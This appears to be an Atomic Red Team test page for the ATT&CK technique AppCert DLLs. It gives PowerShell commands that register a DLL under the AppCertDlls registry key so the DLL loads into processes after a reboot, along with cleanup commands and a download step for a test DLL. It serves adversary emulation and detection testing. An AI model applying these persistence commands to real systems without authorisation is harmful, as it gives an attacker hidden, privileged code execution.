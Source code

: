 ```yaml
---
tags: [T1546_009, atomic_test]
filename: "[[T1546.009|T1546.009 - Event Triggered Execution: AppCert DLLs]]"
---
```


# T1546.009 - Event Triggered Execution: AppCert DLLs
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1546/009)
<blockquote>Adversaries may establish persistence and/or elevate privileges by executing malicious content triggered by AppCert DLLs loaded into processes. Dynamic-link libraries (DLLs) that are specified in the <code>AppCertDLLs</code> Registry key under <code>HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Session Manager\</code> are loaded into every process that calls the ubiquitously used application programming interface (API) functions <code>CreateProcess</code>, <code>CreateProcessAsUser</code>, <code>CreateProcessWithLoginW</code>, <code>CreateProcessWithTokenW</code>, or <code>WinExec</code>. (Citation: Elastic Process Injection July 2017)

Similar to [Process Injection](https://attack.mitre.org/techniques/T1055), this value can be abused to obtain elevated privileges by causing a malicious DLL to be loaded and run in the context of separate processes on the computer. Malicious AppCert DLLs may also provide persistence by continuously being triggered by API activity. </blockquote>

## Atomic Tests

- [Atomic Test #1 - Create registry persistence via AppCert DLL](#atomic-test-1---create-registry-persistence-via-appcert-dll)


<br/>

## Atomic Test #1 - Create registry persistence via AppCert DLL
Creates a new 'AtomicTest' value pointing to an AppCert DLL in the AppCertDlls registry key. 
Once the computer restarted, the DLL will be loaded in multiple processes and write an 
'AtomicTest.txt' file in C:\Users\Public\ to validate that the DLL executed succesfully.

Reference: https://skanthak.homepage.t-online.de/appcert.html

**Supported Platforms:** Windows


**auto_generated_guid:** a5ad6104-5bab-4c43-b295-b4c44c7c6b05





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| dll_path | path of dll to use | path | PathToAtomicsFolder&#92;T1546.009&#92;bin&#92;AtomicTest.dll|
| reboot | Set value to $true if you want to automatically reboot the machine | string | $false|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Copy-Item "#{dll_path}" C:\Users\Public\AtomicTest.dll -Force
reg add "HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Session Manager\AppCertDlls" /v "AtomicTest" /t REG_EXPAND_SZ /d "C:\Users\Public\AtomicTest.dll" /f
if(#{reboot}){Restart-Computer}
```

#### Cleanup Commands:
```powershell
reg delete "HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Session Manager\AppCertDlls" /v "AtomicTest" /f
Remove-Item C:\Users\Public\AtomicTest.dll -Force
Remove-Item C:\Users\Public\AtomicTest.txt -Force
```



#### Dependencies:  Run with `powershell`!
##### Description: File to copy must exist on disk at specified location (#{dll_path})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{dll_path}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path "#{dll_path}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1546.009/bin/AtomicTest.dll" -OutFile "#{dll_path}"
```




<br/>
